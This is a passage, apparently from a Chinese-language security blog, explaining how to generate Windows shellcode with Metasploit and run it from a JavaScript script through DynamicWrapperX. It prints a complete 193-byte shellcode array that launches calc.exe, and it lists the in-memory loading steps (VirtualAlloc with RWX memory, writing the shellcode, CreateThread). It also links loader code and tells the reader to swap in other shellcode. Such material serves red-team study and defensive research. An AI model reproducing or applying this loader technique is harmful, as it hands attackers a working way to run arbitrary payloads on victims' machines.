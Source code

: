 ```
use windows/exec
set CMD calc.exe
generate -t csharp
```

如图

![Alt text](https://raw.githubusercontent.com/3gstudent/3gstudent.github.io/master/_posts/2016-9-13/3-1.png)

获得shellcode

```
byte[] buf = new byte[193] {
0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,
0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,
0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,
0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,
0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,
0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,
0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,
0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,
0x8d,0x5d,0x6a,0x01,0x8d,0x85,0xb2,0x00,0x00,0x00,0x50,0x68,0x31,0x8b,0x6f,
0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,
0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,
0x00,0x53,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00 };
```



## 0x03 js脚本加载shellcode
---
**步骤：**

1. 通过VirtualAlloc申请一块具有RWX权限的内存，函数返回值为内存的基地址
2. 
2. 向这段内存写入shellcode
3. 调用CreateThread加载shellcode

实例代码如下：

https://gist.github.com/subTee/ca6ab8ec75ec38c213da580cd0de30fe

代码比较简洁，在此不做详细介绍，直接替换其中的shellcode，正常执行，如图
![Alt text](https://raw.githubusercontent.com/3gstudent/3gstudent.github.io/master/_posts/2016-9-13/3-2.png)


**注：**
VirtualAlloc第二个参数表示分配内存的大小，shellcode的长度不要超过这个数值

DynamicWrapperX 1.0提供了英文版说明，可对照语法进行二次开发，参考地址如下：

http://www.script-coding.com/dynwrapx_eng.html

DynamicWrapperX 2.0中默认提供英文帮助文档，语法有细微变化，需要注意
